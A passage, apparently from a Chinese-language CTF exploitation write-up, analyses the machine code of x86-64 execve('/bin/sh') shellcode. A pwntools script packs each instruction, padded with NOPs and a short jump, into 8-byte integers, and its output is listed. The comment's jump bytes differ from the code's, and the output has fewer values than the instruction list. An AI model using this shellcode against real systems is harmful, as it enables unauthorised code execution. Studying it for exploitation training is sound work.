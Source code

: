 5. ``push 0x1010101 ^ 0x6873``：机器码``hri\x01\x01``，但其与下一步可以合并：
	``push 0x6873``：机器码``hsh\x00\x00``，占用5字节。
6. ``xor esi, esi``：机器码``1\xf6``，占用2字节。
7. ``push rsi``：机器码``V``，占用1字节。
8. ``push 8``：机器码``j\x08``，占用2字节。
9. ``pop rsi``：机器码``^``，占用1字节。
10. ``add rsi, rsp``：机器码``H\x01\xe6``，占用3字节。
11. ``push rsi``：机器码``V``，占用1字节。
12. ``mov rsi, rsp``：机器码``H\x89\xe6``，占用3字节。
13. ``xor edx, edx``：机器码``1\xd2``，占用2字节。
14. ``push SYS_execve``：机器码``j;``，占用2字节。
15. ``pop rax``：机器码``X``，占用1字节。
16. ``syscall``：机器码``\x0f\x05``，占用2字节。

机器码分析完毕。我们发现有一些指令很短，可以几条合并。如3和4合并、6和7和8和9合并、10和11合并、12和13合并、14和15和16合并。但是为了批量生成指令机器码的方便，每个8字节中只填充一个shellcode指令。我们让短转移指令固定在最后2字节，前面的指令不够6字节的使用nop指令补充。我们使用脚本尝试生成一下：

```python
from pwn import *
context.arch='amd64'

shellcode = [
			 "push 0x68",
	     	 "mov eax, 0x732f2f2f",
	     	 "shl rax, 32",
	     	 "add rax, 0x6e69622f",
	     	 "push rax",
	     	 "mov rdi, rsp",
	     	 "push 0x6873",
	     	 "xor esi, esi",
	     	 "push rsi",
	     	 "push 8",
	     	 "pop rsi",
	     	 "add rsi, rsp",
	     	 "push rsi",
	     	 "mov rsi, rsp",
	     	 "xor edx, edx",
	     	 "push SYS_execve",
	     	 "pop rax",
	     	 "syscall"
	     	]

for code in shellcode:
	bytes = asm(code).ljust(6, b'\x90') + b'\xEB\xE9'	# \xEB\xEB: jmp short ptr -21, 思考一下-21这个数是怎么得出来的
	print(u64(bytes))
```

输出结果：

```
16999840169015142506
16999840042827329464
16999840167141359944
16999802617337939272
16999840169015152720
16999840169020852552
16999839548121314152
16999840169015178801
16999840169015152726
16999840169015117930
16999840169015152734
16999840169020752200
16999840169015152726
16999840169020787016
16999840169015169585
```